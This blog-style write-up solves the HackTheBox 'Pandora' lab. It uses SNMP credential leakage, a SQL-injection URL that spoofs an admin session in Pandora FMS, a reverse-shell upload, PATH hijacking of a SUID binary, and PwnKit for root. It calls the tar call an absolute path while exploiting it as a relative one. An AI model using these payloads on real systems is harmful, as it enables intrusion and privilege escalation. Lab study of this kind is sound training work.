 ```yaml
---
title: Pandora
date: 2022-04-23
categories: [HackTheBox, Easy]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```

    
![](https://i.imgur.com/gUDqBgn.png)

Pandora is the first box I have ran into that requires a UDP scan to move forward rather than a standard TCP one. This box features finding plaintext creds through snmpwalk, spoofing an admin session from info we found in a mysql database, and abusing path injection to fully compromise the machine.

## Recon

`nmap -sV 10.10.11.136`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-22 05:03 EDT
Nmap scan report for 10.10.11.136
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.21 seconds
```

![](https://i.imgur.com/NgrYOER.png)
    
![](https://i.imgur.com/3PlKs8P.png)
    
![](https://i.imgur.com/RQvJFH3.png)


Its a static website, don't even bother with it. Gobuster dir and vhosts don't return anything. The contact form on the website does not lead anywhere, its just there for show. Nikto also does not yeild any results. Revisit the drawing board.

We can try a UDP scan instead.

> UDP scans are very slow so we specify a high min rate.
{: .prompt-tip }

`nmap -sU 10.10.11.136 --min-rate 2000`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-23 00:47 EDT
Nmap scan report for pandora.htb (10.10.11.136)
Host is up (0.14s latency).
Not shown: 992 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
3/udp     closed compressnet
161/udp   open   snmp
17006/udp closed unknown
17146/udp closed unknown
22105/udp closed unknown
33744/udp closed unknown
49214/udp closed unknown
58002/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 2.85 seconds
```
Well this is a new attack vector that I had no idea about, let's check out SNMP.

`snmpwalk -v1 -c public 10.10.11.136`
```
iso.3.6.1.2.1.25.4.2.1.5.907 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.980 = ""
iso.3.6.1.2.1.25.4.2.1.5.1117 = STRING: "-u daniel -p HotelBabylon23"
iso.3.6.1.2.1.25.4.2.1.5.5464 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.6262 = STRING: "-k start"
```
Plain text creds can be seen from an snmpwalk

`nmap -sU -sVC -p 161  10.10.11.136`
```
[...]
|   1117: 
|     Name: host_check
|     Path: /usr/bin/host_check
|     Params: -u daniel -p HotelBabylon23
```
Another way of seeing the creds is by using a script scan against port 161.

Now using the plain text creds we can ssh into daniel.

`ssh daniel@pandora.htb `
```                
The authenticity of host 'pandora.htb (10.10.11.136)' can't be established.
ED25519 key fingerprint is SHA256:yDtxiXxKzUipXy+nLREcsfpv/fRomqveZjm6PXq9+BY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'pandora.htb' (ED25519) to the list of known hosts.
daniel@pandora.htb's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 23 Apr 05:35:13 UTC 2022

  System load:  0.0               Processes:             237
  Usage of /:   66.1% of 4.87GB   Users logged in:       1
  Memory usage: 20%               IPv4 address for eth0: 10.10.11.136
  Swap usage:   0%

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Apr 23 05:24:41 2022 from 10.10.14.11
daniel@pandora:~$ 
```

Shell obtained :)

## User
After running linpeas, we find that we can run nmap on ourselves. Doing this we can find out our own open ports.

```bash=
daniel@pandora:~$ nmap localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-23 19:53 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Other addresses for localhost (not scanned): ::1
rDNS record for 127.0.0.1: localhost.localdomain
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
daniel@pandora:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    
tcp6       0      0 :::80                   :::*                    LISTEN      -                    
tcp6       0      0 :::22                   :::*                    LISTEN      -                    
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                    
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -                    
udp6       0      0 ::1:161                 :::*                                -  
```

Locate the locally hosted webserver from the apach configs/webroot. Dump the sql tables.

> Noteabley the user sessions since the passwords arent crackable
{: .prompt-tip }

We have an admin user so we can log in using their session by generating a cookie.
```
http://localhost/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20endof%20%20--%20endof
```
From here we can upload a reverse shell since we have file upload and then hit it. These webshells are generally pretty janky so what we can do it force create a ssh key and grab the private key so that we can login. The commands to do so:
`ssh-keygen`
`cat id_rsa.pub > authorized_keys`
`chmod 600 authorized_keys`

## Root
The web user can run this custom SUID found from `find / -perm -4000 2>/dev/null`. /usr/bin/pandora_backup is the exploitable binary. Viewing it with strings we see that the tar command is specified with an absolute path. This is vulnerable to path injection. Just run `export PATH=/my/path:$PATH`

From there we create our malicious tar with the contents
```
#!/bin/bash
chmod 7777 /bin/bash
```
This creates bash as an SUID as root. Run `bash -p` to gain the root shell. Pwnded :)

### Pwnkit
Running linpeas shows you
```
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                 
```
This CVE is pwnkit and running it should get you instant root.

```
daniel@pandora:~$ ./Pwnkit
root@pandora:
```

```
root@pandora:/home/daniel# ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Dec  7 14:32 .
drwxr-xr-x 18 root   root   4096 Dec  7 14:32 ..
drwxr-xr-x  7 daniel daniel 4096 Apr 23 05:53 daniel
drwxr-xr-x  3 matt   matt   4096 Apr 22 18:21 matt
root@pandora:/home/daniel# cat /home/matt/user.txt
7e328d9b93d565137e31e20fd9fce3ba
```
Now we grab the user flag and we are done